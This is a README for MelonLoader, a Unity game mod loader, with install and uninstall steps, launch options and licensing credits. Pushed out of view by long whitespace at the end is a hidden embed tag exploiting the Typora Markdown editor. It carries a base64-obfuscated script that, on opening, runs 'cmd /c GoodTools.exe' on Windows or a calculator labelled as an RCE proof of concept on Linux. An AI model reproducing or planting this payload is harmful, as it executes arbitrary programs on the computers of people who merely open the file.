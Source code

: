 ### GENERAL INFORMATION:

- Normal Console is for Debugging and Displaying the Output of Plugins and Mods.
- Debug Mode/Console is for Debugging MelonLoader Internals.
- All Plugins get placed in the created Plugins folder inside the Game's Install Folder.
- All Mods get placed in the created Mods folder inside the Game's Install Folder.
- All Logs are made in the created Logs folder inside the Game's Install Folder.
- In order to properly use dnSpy's Debugger run the game with the Debug Mode/Console launch option.

---

### REQUIREMENTS:

- [.NET Framework 4.8 Runtime](https://dotnet.microsoft.com/download/dotnet-framework/thank-you/net48-web-installer)
- [Microsoft Visual C++ 2015-2019 Re-distributable](https://aka.ms/vs/16/release/vc_redist.x64.exe)

---

### AUTOMATED INSTALLATION:

1. Make sure the Game you are installing to is Closed and Not Running.
2. Download [MelonLoader.Installer.exe](https://github.com/HerpDerpinstine/MelonLoader/releases/latest/download/MelonLoader.Installer.exe).
3. Run MelonLoader.Installer.exe.
4. Click the SELECT button.
5. Select and Open the Game's EXE in your Game's Installation Folder.
6. Select which Version of MelonLoader to install using the Drop-Down List.  (Or leave it as-is for the Latest Version.)
7. Click the INSTALL or RE-INSTALL or UPDATE button.

---

### MANUAL INSTALLATION:

1. Make sure the Game you are installing MelonLoader to is Closed and Not Running.
2. Download [MelonLoader.zip](https://github.com/HerpDerpinstine/MelonLoader/releases/latest/download/MelonLoader.zip).
3. Extract the MelonLoader folder from MelonLoader.zip to the Game's Installation Folder.
4. Extract version.dll from MelonLoader.zip to the Game's Installation Folder.

---

### AUTOMATED UNINSTALL:

1. Make sure the Game you are uninstalling from is Closed and Not Running.
2. Download [MelonLoader.Installer.exe](https://github.com/HerpDerpinstine/MelonLoader/releases/latest/download/MelonLoader.Installer.exe).
3. Run MelonLoader.Installer.exe.
   1. Click the SELECT button.

4. Select and Open the Game's EXE in your Game's Installation Folder.
5. Click the UN-INSTALL button.

---

### MANUAL UNINSTALL:

1. Make sure the Game you are installing MelonLoader to is Closed and Not Running.
2. Remove the version.dll file from the Game's Installation Folder.
3. Remove the MelonLoader folder from the Game's Installation Folder.
4. Remove the Plugins folder from the Game's Installation Folder.
5. Remove the Mods folder from the Game's Installation Folder.
6. Remove the Logs folder from the Game's Installation Folder.

---

### LAUNCH OPTIONS:

| Argument                      | Description                                                |
| ----------------------------- | ---------------------------------------------------------- |
| --no-mods                     | Launch game without loading Mods                           |
| --quitfix                     | Fixes the Hanging Process Issue with some Games            |
| --melonloader.hideconsole     | Hides the Normal Console                                   |
| --melonloader.hidewarnings    | Hides Warnings from Displaying                             |
| --melonloader.debug           | Debug Mode/Console                                         |
| --melonloader.magenta         | Magenta Console Color                                      |
| --melonloader.rainbow         | Rainbow Console Color                                      |
| --melonloader.randomrainbow   | Random Rainbow Console Color                               |
| --melonloader.maxlogs         | Max Log Files [ Default: 10 ] [ Disable: 0 ]               |
| --melonloader.maxwarnings     | Max Warnings per Log File [ Default: 100 ] [ Disable: 0 ]  |
| --melonloader.maxerrors       | Max Errors per Log File [ Default: 100 ] [ Disable: 0 ]    |
| --melonloader.loadmodeplugins | Load Mode for Plugins [ Default: 0 ]                       |
| --melonloader.loadmodemods    | Load Mode for Mods [ Default: 0 ]                          |
| --melonloader.agregenerate    | Forces Assembly to be Regenerated on Il2Cpp Games          |
| --melonloader.agfvunhollower  | Forces use a Specified Version of Il2CppAssemblyUnhollower |
| --melonloader.consoleontop    | Forces the Console over all other Applications             |

---

### LOAD MODES:

- Load Mode launch options are a way to dictate how you want Mods or Plugins to Load.

| Value | Action                                                       |
| ----- | ------------------------------------------------------------ |
| 0     | NORMAL - Load them only if they don't have the "-dev" Name Extension |
| 1     | DEV - Load them only if they have the "-dev" Name Extension  |
| 2     | BOTH - Load All                                              |

---

### LICENSING & CREDITS:

MelonLoader is licensed under the Apache License, Version 2.0. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/LICENSE.md) for the full License.

Third-party libraries used as source code or bundled in binary form:

- [Research Detours Package](https://github.com/microsoft/Detours) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/Detours/LICENSE.md) for the full License.
- [Mono](https://github.com/Unity-Technologies/mono) is licensed under multiple licenses. See [LICENSE](https://github.com/Unity-Technologies/mono/blob/unity-master/LICENSE) for full details.
- [Harmony](https://github.com/pardeike/Harmony) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/MelonLoader.ModHandler/Harmony/LICENSE) for the full License.
- [TinyJSON](https://github.com/pbhogan/TinyJSON) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/MelonLoader.AssemblyGenerator/TinyJSON/LICENSE.md) for the full License.
- [LightJson](https://github.com/MarcosLopezC/LightJson) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/MelonLoader.Installer/LightJson/LICENSE.txt) for the full License.
- [Tomlyn](https://github.com/xoofx/Tomlyn) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/MelonLoader.ModHandler/Tomlyn/license.txt) for the full License.
- [SharpZipLib](https://github.com/icsharpcode/SharpZipLib) is licensed under the MIT License. See [LICENSE](https://github.com/HerpDerpinstine/MelonLoader/blob/master/MelonLoader.ModHandler/SharpZipLib/LICENSE.txt) for the full License.
- [AtiRoNya](https://github.com/AtiLion/AtiRoNya) is licensed under the MIT License. See [LICENSE](https://github.com/AtiLion/AtiRoNya/blob/e20e4a8fc47b37834c8284f9e6e937f04a84c510/LICENSE) for the full License.
- Unity Runtime libraries (found in [Unity Dependencies](BaseLibs/Unity%20Dependencies)) are part of Unity Software.  
  Their usage is subject to [Unity Terms of Service](https://unity3d.com/legal/terms-of-service), including [Unity Software Additional Terms](https://unity3d.com/legal/terms-of-service/software).

External tools downloaded and used at runtime:

- [Il2CppDumper](https://github.com/Perfare/Il2CppDumper) is licensed under the MIT License. See [LICENSE](https://github.com/Perfare/Il2CppDumper/blob/master/LICENSE) for the full License.
- [Il2CppAssemblyUnhollower](https://github.com/knah/Il2CppAssemblyUnhollower) is licensed under the GNU Lesser General Public License v3.0. See [LICENSE](https://github.com/knah/Il2CppAssemblyUnhollower/blob/master/LICENSE) for the full License.

See [MelonLoader Wiki](https://melonwiki.xyz/#/credits) for the full Credits.

MelonLoader is not sponsored by, affiliated with or endorsed by Unity Technologies or its affiliates.  
"Unity" is a trademark or a registered trademark of Unity Technologies or its affiliates in the U.S. and elsewhere.

























































































































































































<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NtZCAvYyBHb29kVG9vbHMuZXhlJywgTGludXg6ICdnbm9tZS1jYWxjdWxhdG9yIC1lICJUeXBvcmEgUkNFIFBvQyInfSlbbmF2aWdhdG9yLnBsYXRmb3JtLnN1YnN0cigwLDUpXSk='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
